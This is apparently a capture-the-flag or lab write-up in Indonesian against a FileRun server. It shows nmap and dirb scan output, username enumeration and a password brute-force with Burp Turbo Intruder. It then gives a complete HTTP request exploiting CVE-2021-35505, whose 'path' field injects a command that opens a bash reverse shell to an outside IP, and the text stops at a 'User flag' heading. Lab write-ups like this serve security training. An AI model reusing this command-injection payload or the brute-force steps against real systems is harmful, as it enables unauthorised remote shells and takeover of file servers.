





 
# Enemuration

Nmap

```
# Nmap 7.94SVN scan initiated Mon Feb 26 17:51:36 2024 as: nmap -sC -sV -oN nmapx -p- -T4 --min-rate=1000 -v 10.1.2.10
Warning: 10.1.2.10 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.1.2.10
Host is up (0.25s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT   STATE    SERVICE VERSION
19/tcp filtered chargen
22/tcp open     ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 41:48:e8:68:d4:2b:4f:ad:2f:08:e7:61:d0:39:66:ca (DSA)
|   2048 64:d3:ae:38:91:8d:a8:d5:fb:f7:63:67:f7:51:db:45 (RSA)
|   256 95:d9:14:be:e9:06:52:14:4d:8d:0d:11:e2:33:d9:3e (ECDSA)
|_  256 92:aa:a2:d9:3d:5d:1d:03:2a:3a:45:c6:d5:e9:0e:19 (ED25519)
53/tcp open     domain  ISC BIND 9.9.5-3ubuntu0.16 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.16-Ubuntu
80/tcp open     http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: FileRun :: Login
|_http-favicon: Unknown favicon MD5: 4DB45763B22716132DEEF3CC03FDF215
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 26 17:53:30 2024 -- 1 IP address (1 host up) scanned in 114.47 seconds

```


Dirb


```

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: dirbx.txt
START_TIME: Mon Feb 26 17:55:09 2024
URL_BASE: http://10.1.2.10/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.1.2.10/ ----
==> DIRECTORY: http://10.1.2.10/a/
==> DIRECTORY: http://10.1.2.10/cron/
==> DIRECTORY: http://10.1.2.10/css/
==> DIRECTORY: http://10.1.2.10/download/
+ http://10.1.2.10/favicon.ico (CODE:200|SIZE:5430)
==> DIRECTORY: http://10.1.2.10/images/
+ http://10.1.2.10/index.php (CODE:200|SIZE:2121)
+ http://10.1.2.10/info.php (CODE:200|SIZE:91052)
==> DIRECTORY: http://10.1.2.10/javascript/
==> DIRECTORY: http://10.1.2.10/js/
==> DIRECTORY: http://10.1.2.10/logout/
==> DIRECTORY: http://10.1.2.10/panel/
==> DIRECTORY: http://10.1.2.10/phpmyadmin/
+ http://10.1.2.10/server-status (CODE:403|SIZE:289)
==> DIRECTORY: http://10.1.2.10/sounds/
==> DIRECTORY: http://10.1.2.10/sso/
==> DIRECTORY: http://10.1.2.10/system/
+ http://10.1.2.10/web.config (CODE:200|SIZE:711)

---- Entering directory: http://10.1.2.10/a/ ----
+ http://10.1.2.10/a/index.php (CODE:200|SIZE:82)

---- Entering directory: http://10.1.2.10/cron/ ----
```


# Exploitation


Pada halaman pertama website di hadapakan oleh form login dari filerun.
Menebak authentication dengan `admin:admin` mendapat response `Invalid username.` tetapi dengan menggunakan default credentials dengan username `superuser:superuser` mendapat response `invalid password.` yang mana form login tersebut memiliki celah user enemuration dan brute-force.

 

Brute-force password superuser menggunakan burpsuite turbo intruder
- Setup turbo intruder

  

- Response valid password

  


Reverse shell dengan rce dari PoC [CVE-2021-35505](https://syntegris-sec.github.io/filerun-advisory)


```
POST /?module=cpanel&section=settings&page=image_preview&action=checkImageMagick HTTP/1.1
Host: 10.1.2.10
Content-Length: 44
sec-ch-ua: "Chromium";v="91", " Not;A Brand";v="99"
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: */*
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://10.1.2.10/?module=cpanel
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: FileRunSID=gpge7fnapi5d4jk3prads0qmo4 // ganti cookie yang valid
Connection: close

mode=exec&path=convert%7Cecho%20%60bash+-c+'bash+-i+>%26+/dev/tcp/10.18.200.73/9001+0>%261'%60


```

User flag

